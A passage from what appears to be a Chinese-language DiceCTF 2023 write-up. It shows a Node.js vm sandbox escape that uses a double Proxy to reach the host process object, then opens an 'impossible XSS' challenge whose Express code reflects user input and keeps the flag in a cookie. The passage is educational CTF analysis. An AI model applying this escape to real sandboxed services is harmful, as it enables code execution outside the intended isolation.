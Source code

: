 而賽後的 Discord 討論裡面，也有人提到可以利用雙重 proxy 達成「只要存取 object 的值就可以 escape」，像這樣：

``` js
"use strict";
const vm = require("vm");

const ctx = { codeGeneration: { strings: false, wasm: false }};
const unserialize = (data) => new vm.Script(`"use strict"; (${data})`)
    .runInContext(
        vm.createContext(Object.create({console}), ctx),
        { timeout: 250 }
    );

var data = `new Proxy({}, {
    get: new Proxy(_=>_, {
        apply(a,b,c) {
            console.log(c.constructor.constructor("return this")().process.pid)
        }
    })
})`

try {
    data = unserialize(data);
    data['key'];
} catch(err) {
    console.log(err)
}
```

作者 writeup：https://brycec.me/posts/dicectf_2023_challenges

## Web - impossible XSS (0 solves)

這題很酷，程式碼很簡單：

``` js
const express = require('express');
const cookieParser = require('cookie-parser');
const app = express();
app.use(cookieParser());

app.get('/', (req, res) => {
    // free xss, how hard could it be?
    res.end(req.query?.xss ?? 'welcome to impossible-xss');
});

app.get('/flag', (req, res) => {
    // flag in admin bot's FLAG cookie
    res.end(req.cookies?.FLAG ?? 'dice{fakeflag}');
});

app.listen(8080);
```
